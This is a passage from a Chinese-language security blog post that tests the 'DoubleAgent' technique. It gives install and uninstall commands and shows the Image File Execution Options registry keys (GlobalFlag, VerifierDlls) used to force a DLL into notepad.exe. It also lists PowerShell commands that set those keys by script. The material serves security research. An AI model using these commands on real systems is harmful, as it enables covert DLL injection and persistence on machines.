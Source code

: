 编译后将DoubleAgent_x86.exe和\x86\DoubleAgentDll.dll放于同级目录下

cmd下：
(管理员权限)

安装：

`DoubleAgent_x86.exe install notepad.exe`

卸载：

`DoubleAgent_x86.exe uninstall notepad.exe`

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-28/2-3.png)

安装后，启动notepad.exe，弹框，之后正常启动notepad.exe


安装成功后，在面板中也可以看到安装的verifier

cmd输入appverif

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-28/2-4.png)

如果想要劫持非系统默认安装的程序，那么该程序需要存放于system32文件夹下(或者新建快捷方式存放于system32并指向原程序)


需要先将DoubleAgentDll.dll复制到system32下，再通过命令行安装



安装成功后，在注册表会保存安装信息：

注册表位置：

`[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe]`

键值信息如下：

```
"GlobalFlag"="0x100"
"VerifierDlls"="DoubleAgentDll.dll"
```

如果删除该注册表键值，那么verifier失效

**注：**

查看poc源码发现安装操作是通过新建注册表键值的方法


所以下面尝试通过脚本新建注册表键值来实现verifier的安装：

**1、powershell测试代码实现注册表键值的添加**

```
New-Item -itemType DWord "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe"
New-ItemProperty -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" -name GlobalFlag -propertytype Dword -value 0x100
New-ItemProperty -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" -name VerifierDlls -propertytype String -value DoubleAgentDll.dll
```
